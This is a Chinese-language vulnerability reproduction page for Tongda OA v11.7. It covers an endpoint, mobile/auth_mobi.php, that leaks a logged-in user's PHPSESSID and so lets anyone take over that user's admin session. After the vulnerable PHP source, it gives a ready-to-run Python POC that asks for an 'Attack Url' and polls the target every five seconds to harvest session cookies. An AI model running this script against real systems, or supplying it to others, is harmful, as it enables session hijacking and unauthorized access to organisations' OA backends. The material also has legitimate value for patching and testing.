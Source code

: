 # 通达OA v11.7 在线用户登录漏洞

## 漏洞描述

通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统

## 漏洞影响

> [!NOTE]
>
> 通达OA < v11.7 

## 环境搭建

[通达OA v11.7下载链接](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

下载后按步骤安装即可

## 漏洞复现

漏洞有关文件 **MYOA\webroot\mobile\auth_mobi.php**

```php
<?php

function relogin()
{
    echo _('RELOGIN');
    exit;
}
ob_start();
include_once 'inc/session.php';
include_once 'inc/conn.php';
include_once 'inc/utility.php';
if ($isAvatar == '1' && $uid != '' && $P_VER != '') {
    $sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
    $cursor = exequery(TD::conn(), $sql);
    if ($row = mysql_fetch_array($cursor)) {
        $P = $row['SID'];
    }
}
if ($P == '') {
    $P = $_COOKIE['PHPSESSID'];
    if ($P == '') {
        relogin();
        exit;
    }
}
if (preg_match('/[^a-z0-9;]+/i', $P)) {
    echo _('非法参数');
    exit;
}
if (strpos($P, ';') !== false) {
    $MY_ARRAY = explode(';', $P);
    $P = trim($MY_ARRAY[1]);
}
session_id($P);
session_start();
session_write_close();
if ($_SESSION['LOGIN_USER_ID'] == '' || $_SESSION['LOGIN_UID'] == '') {
    relogin();
}
```

在执行的 SQL语句中

```sql
$sql = 'SELECT SID FROM user_online WHERE UID = \'' . $uid . '\' and CLIENT = \'' . $P_VER . '\'';
```

![](image/tongdaoa-25.png)

简单阅读PHP源码可以知道 此SQL语句会查询用户是否在线，如在线返回此用户 Session ID

![](image/tongdaoa-26.png)

将返回的 Set-Cookie 中的Cookie参数值使用于登录Cookie

访问目标后台 http://xxx.xxx.xxx.xxx/general/ 

![](image/tongdaoa-27.png)

当目标离线时则访问漏洞页面则会出现如下图

![](image/tongdaoa-28.png)

> [!NOTE]
>
> 通过此思路可以持续发包监控此页面来获取在线用户的Cookie

## 漏洞利用POC

> [!NOTE]
>
> 5秒一次测试用户是否在线

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA 11.7                                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "RELOGIN" in response.text and response.status_code == 200:
            print("\033[31m[x] 目标用户为下线状态 --- {}\033[0m".format(time.asctime( time.localtime(time.time()))))
        elif response.status_code == 200 and response.text == "":
            PHPSESSION = re.findall(r'PHPSESSID=(.*?);', str(response.headers))
            print("\033[32m[o] 用户上线 PHPSESSION: {} --- {}\033[0m".format(PHPSESSION[0] ,time.asctime(time.localtime(time.time()))))
        else:
            print("\033[31m[x] 请求失败，目标可能不存在漏洞")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    while True:
        POC_1(target_url)
        time.sleep(5)
```

![](image/tongdaoa-29.png)